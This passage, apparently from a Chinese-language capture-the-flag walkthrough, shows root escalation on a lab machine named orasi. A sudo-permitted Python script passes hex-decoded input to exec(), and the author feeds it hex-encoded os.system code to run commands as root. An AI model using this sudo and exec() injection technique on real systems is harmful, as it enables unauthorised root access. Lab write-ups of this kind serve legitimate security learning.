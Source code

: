 ## 6. irida用户提权root
```bash
irida@orasi:~$ sudo -l
Matching Defaults entries for irida on orasi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User irida may run the following commands on orasi:
    (root) NOPASSWD: /usr/bin/python3 /root/oras.py

```

这里我们可以执行 `root/oras.py`
但是我们不知道脚本的具体内容
随便执行可以发现其中的报错
```bash
irida@orasi:~$ sudo -u root python3  /root/oras.py
: whomai
Traceback (most recent call last):
  File "/root/oras.py", line 7, in <module>
    name = bytes.fromhex(name).decode('utf-8')
ValueError: non-hexadecimal number found in fromhex() arg at position 0

```
`name = bytes.fromhex(name).decode('utf-8')`
很明显我们应该是要输入一个16进制的值

尝试输入 `whoamI` 的16进制值
```bash
irida@orasi:~$ sudo -u root python3  /root/oras.py
: 77686f616d69
Traceback (most recent call last):
  File "/root/oras.py", line 8, in <module>
    print(exec(name))
  File "<string>", line 1, in <module>
NameError: name 'whoami' is not defined

```
还是报错了。但是又多了一个错误
`print(exec(name))`

明显这里会执行一个参数 `name` 而这里 `name` 我们输入16进制对应字符串是 `whoami`

这里用的是python执行。那我们就应该按照python调用系统命令的方式传递参数
```bash
string:import os;os.system('whoami');
696d706f7274206f733b6f732e73797374656d282777686f616d6927293b

irida@orasi:~$ sudo -u root python3  /root/oras.py
: 696d706f7274206f733b6f732e73797374656d282777686f616d6927293b
root
None

```
ok成功

